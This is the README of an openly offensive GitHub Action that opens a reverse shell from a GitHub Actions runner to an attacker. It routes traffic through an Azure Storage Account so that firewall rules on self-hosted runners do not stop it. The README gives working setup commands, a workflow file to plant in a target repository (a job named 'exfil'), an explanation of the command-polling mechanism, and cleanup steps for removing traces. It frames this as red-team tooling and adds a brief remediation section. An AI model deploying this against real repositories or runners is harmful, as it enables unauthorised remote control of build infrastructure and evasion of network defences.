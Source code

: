 # Azure Storage Account Reverse Shell

![Logo](resources/logo.jpg)

## 🏁 What this is and major use cases

This is a GitHub Action that can send a reverse shell from a GitHub runner to any internet connected device able to run python, utilizing Azure Storage Account as a broker - bypassing firewall rules in place on self-hosted runners.

This comes in handy in two cases: 

1. 🐱‍👤 **Red Team Exercise:**
   * All outgoing and "incoming" connections from the runner are made to `*.blob.core.windows.net`, so a high level of scrutiny is needed to detect this.
   * However, you might want to not use this action directly, but adapt the code into your own ;)
3. 💻 **Attacking self-hosted runners:**
   * Self-hosted runners should be hardened and not allow any outgoing connections other than the minimum required by the GitHub documentation.
   * The endpoint `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).
   * This is especially interesting for non-ephemeral runners, if you want to debug other workflow runs, too.
  
And this is what an incoming shell looks like:

![demo](resources/demo.png)

## How to use it

### Set up the Azure Storage Account

This is straightforward, you will need a resource group, open a Storage Account within it and then open a container within that one. Note down the names of the last two:

``` bash
az group create \
  --name <resource_group_name> \
  --location <location>

az storage account create \
  --resource-group <resource_group_name> \
  --name <storage_account_name> \
  --location <location> \
  --sku Standard_LRS

az storage container create \
  --resource-group <resource_group_name> \
  --account-name <storage_account_name>
  --name <container_name>
```

Now generate a SAS token that will allow for listing, reading, writing and deleting blobs for a limited time. This command will generate one that is valid for 30 minutes:

``` bash
az storage container generate-sas \
  --account-name <storage_account_name> \
  --name <container_name> \
  --permissions lrdw \
  --expiry $(date -u -d "+30 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Set up your client

> 💡 It is currently important to start the script before you trigger the reverse shell, since the script will only utilize the first incoming session after it started.

Set the values for the Storage Account, the container and the SAS token as environment variables:

``` bash
export AZ_STORAGE_ACCOUNT_NAME=<storage_account_name>
export AZ_STORAGE_CONTAINER_NAME=<container_name>
export AZ_STORAGE_SAS_TOKEN=<storage_sas_token>
```

Then run the client - it will query the Storage Account for an incoming shell every second:

``` bash
python3 client.py
```

### Set up (and trigger) the reverse shell

Include the following in your target repo into `.github/worflows/<filename>.yml` - the example is being triggered by `workflow_dispatch`, but use `push` or whatever fits the bill.

``` yml
on:
  <event_you_want_the_workflow_to_run_on>
  
jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will send a reverse shell via Azure Storage Account
    steps:
      - uses: offensive-actions/azure-storage-reverse-shell@<commit_hash_that_you_vetted_for_security_reasons>
        with:
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<storage_sas_token>'
```

### When you are done

**Ending the session from the agent's side:** per default, the reverse shell times out after 2 minutes of inactivity. This behaviour can be influenced by setting the `retry-interval` (default: `2` seconds) and the `max-retries` (default: `60`) when creating the  `.github/worflows/<filename>.yml`.

**Ending the session from the client's side:** Just type `exit` - the script will let the agent know and then terminate.

**Invalidate credentials:** You ~~can~~ should rotate the Storage Account keys to invalidate the SAS tokens generated earlier:

``` bash
az storage account keys renew \
  --account-name <storage_account_name> \
  --key key1

az storage account keys renew \
  --account-name <storage_account_name> \
  --key key2
```

**Housekeeping:** If needed:

* purge the GitHub Action history
* delete the workflow definition from the target repository
* delete the container, Storage Account and resource group

## How it works

* When the GitHub Action is executed on the target runner, it gathers intelligence about the context it is running in and puts it into a prompt format: `whoami@hostname:pwd$`.
* Then, it will write this to a blob in an Azure Storage Account, using the current unix timestamp as a prefix.
* On the attacker's side, a client script regularly polls for new blobs - and as soon as it finds one, it will load it and output the contents in the form of a terminal prompt.
* Then, every command written to this prompt will be written to a new blob in the Storage Account, using again the same unix timestamp as prefix.
* On the runner, the Action also polls for new blobs, loads their content (the commands from the client script), and writes the results back to the Storage Account.
* The client, pulling for new blobs, will receive this and output the result.

![diagram](resources/diagram.png)

> ❗ This reverse shell is, due to it's nature, not fully interactive. Thus, you will lose the shell if you send a command that requires interactive input.
> An example would be: if you send `sudo -l`, and a password is needed, you cannot enter it.
> Currently, this bricks the Action run and dependent on the runner in use, the process will live a long time.

## Why I do this

1. Because it's fun.
2. To learn stuff (see point 1).
3. Because I hope you might find this fun, too, and reach out with pull requests or comments, feauture requests, etc.

## Remediation

> This is not an endorsement or sponsored, I just now learned about this in a discussion on Linkedin with the co-founder of [StepSecurity](https://www.stepsecurity.io/) and this deserves some credit 💯.

When the job run starts, one can actually detect which Storage Account will be used for caching. Then, all egress traffic to other Storage Accounts can be blocked.
There are different tools out there to harden GitHub-hosted and self-hosted runners, several of these might already include this function.

Here is an example of a malicious workflow run that was stopped: [https://github.com/step-security/github-actions-goat/actions/runs/11038173335/workflow](https://github.com/step-security/github-actions-goat/actions/runs/11038173335/workflow), make sure to check the build logs!

## Currently next planned steps

1. If timeout hits on the side of GitHub, the agent should send that information to the storage account, and the client should pick up on it.
2. The client should list all currently available shells instead of just showing the first one that is incoming after client start.
3. The agent should implement a timeout for commands that are executed, in case e.g. an interactive command has accidentaly been sent. If the timeout is hit, the agent should communicate that and resume operations.
4. The whole interaction should get logged into a file for compliance.
5. Check for windows and macOS runners, currently it's untested there.
